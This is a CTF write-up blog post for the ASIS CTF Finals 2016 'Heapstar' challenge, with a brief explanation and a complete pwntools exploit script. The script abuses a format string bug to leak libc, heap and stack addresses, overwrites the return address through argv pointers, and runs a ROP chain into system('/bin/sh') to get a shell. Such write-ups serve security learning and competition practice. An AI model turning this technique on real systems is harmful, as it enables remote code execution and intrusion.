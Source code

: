 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/asis-ctf-finals-2016-heapstar/
  - /blog/2016/09/12/asis-ctf-finals-2016-heapstar/
date: "2016-09-12T02:27:02+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Heapstar

Not difficult. It seems that I solved with non-expected solution (because I didn't use the `hp*` and `list*` function), but I like this.

## solution

There is a format string bug, but the writable buffer is on the heap.
We can rewrite only the places whose address is on the stack.
There are the `argv` and `argv[0]`.
I used `argv` to modify the least byte of `argv[0]`, `argv[0]` to construct a payload on somewhere of stack, and the payload to rewrite the return address.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='heapstar.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1337, type=int)
parser.add_argument('--no-echo', action='store_true')
args = parser.parse_args()
context.arch = 'x86_64'
# context.log_level = 'debug'

elf = ELF('./heapstar')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

p = remote(args.host, args.port)
# p = process('./heapstar')
# args.no_echo = True

def cmd(c, s=None):
    p.recvuntil('>> ')
    p.sendline(c)
    if not args.no_echo:
        assert p.recv(len(c) + 2) == c + '\r\n'
    assert (c == 'i') == (s is not None)
    if c == 'i':
        if not args.no_echo:
            assert p.recv(6) == 'Data: '
        p.sendline(s)
        if not args.no_echo:
            assert p.recv(len(s + '\r\n')) == s + '\r\n'
    if c == 'p':
        s = p.recvuntil('>> ', timeout=1)
        if s:
            p.unrecv('>> ')
            return s[: -3 ]
        else:
            return ''

def fsa(s):
    log.info('format string attack: %s', repr(s))
    cmd('c')
    cmd('i', s)
    s = cmd('p')
    log.info('    =>  %s', repr(s))
    return s

# leak addresses
heap_base = int(fsa('%19$p'), 16) - 0x10
log.info('heap_base: %#x', heap_base)
libc_start_main = int(fsa('%21$p'), 16) - 240 # %21$s: <__libc_start_main+240>
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)
argv = int(fsa('%23$p'), 16) # %23$s: argv (char **)
log.info('argv: %#x', argv)
argv_0 = int(fsa('%49$p'), 16) # %49$s: argv[0] (char *)
log.info('argv[0]: %#x', argv_0)

# prepare buffer
fsa('%23$hhn')
k = (argv_0 - argv_0 % 0x100 - argv) // 8 + 49
log.info('k: %d', k) # %k$p: argv[0][0] (char[8])
def seek(i):
    if i == 0:
        i = 256
    fsa('%{}c%23$hhn'.format(i))
def putc(c):
    c = ord(c)
    if c == 0:
        c = 256
    fsa('%{}c%49$hhn'.format(c))
def puts(s):
    for i, c in enumerate(s):
        seek(i)
        putc(c) # write char by char

# writing test
puts('AAAABBBB\0')
seek(0)
assert fsa('%49$s') == 'AAAABBBB'
assert int(fsa('%{}$p'.format(k)), 16) == u64('AAAABBBB')

# do rop
def puts2(addr, s):
    payload = ''
    for i in range(len(s)):
        payload += p64(addr + i)
    puts(payload) # write addresses to write on
    l = 0
    payload = ''
    for i, c in enumerate(s):
        if ord(c) != l:
            payload += '%{}c'.format((ord(c) - l) % 256)
        payload += '%{}$hhn'.format(k + i)
        l = ord(c)
    fsa(payload)
pop_rdi_ret = ROP(elf).find_gadget(['pop rdi']).address
bin_sh = libc_base + next(libc.search('/bin/sh\0'))
system = libc_base + libc.symbols['system']
stack = argv - 0x160 # top at printf
chain = ''.join([ p64(x) for x in [ pop_rdi_ret, bin_sh, system ] ])
puts2(stack, chain)

time.sleep(1)
p.sendline('id')
p.interactive()
```
